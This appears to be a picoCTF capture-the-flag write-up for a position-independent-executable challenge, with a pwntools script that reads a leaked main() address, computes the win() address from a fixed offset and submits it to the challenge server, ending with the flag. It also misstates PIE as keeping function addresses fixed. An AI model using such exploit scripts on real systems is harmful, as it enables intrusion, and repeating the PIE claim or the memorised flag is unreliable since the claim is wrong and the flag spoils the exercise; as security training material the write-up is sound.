

# ANALYSIS
This challenge gives us an exxecutable and a part from its source code. At the same time, we get a netcat connection to a remote server.  

# SOLUTION
The given code shows that we have to get to a win function to get the flag. Firstly, we open the ELF executable with a debugger like **gdb**. We notice the win() and main() offsets, which are useful for the solution of the challenge.  


  

Then, we observe that the ELF file has PIE enabled. This means that the function addresses dont change. Since we are given the main() address we can calculate the win() address.
The mathematical formula used was:  
win_address = main_address + (0x12a7 - 0x133d) = main_address - 0x96
  

In order to solve this challenge, we can make a python script that connects to the server, gets the main function address and makes the correct calculation for the win() function.
  
```python3#!/usr/bin/env python3
from pwn import *
context.log_level = 'error'

# Connect to the remote service
p = remote("rescued-float.picoctf.net", 62959)

# Extract the leaked main address
p.recvuntil(b"Address of main: ")
leaked_main = int(p.recvline().strip(), 16)

# Calculate win address (win_offset - main_offset = -0x96)
win_address = leaked_main - 0x96

# Send the payload
p.sendline(hex(win_address).encode())
p.recvuntil(b"won!")

# Receive the flag
print(p.recvall().decode())

```


* Flag: picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_ecb96bdd}
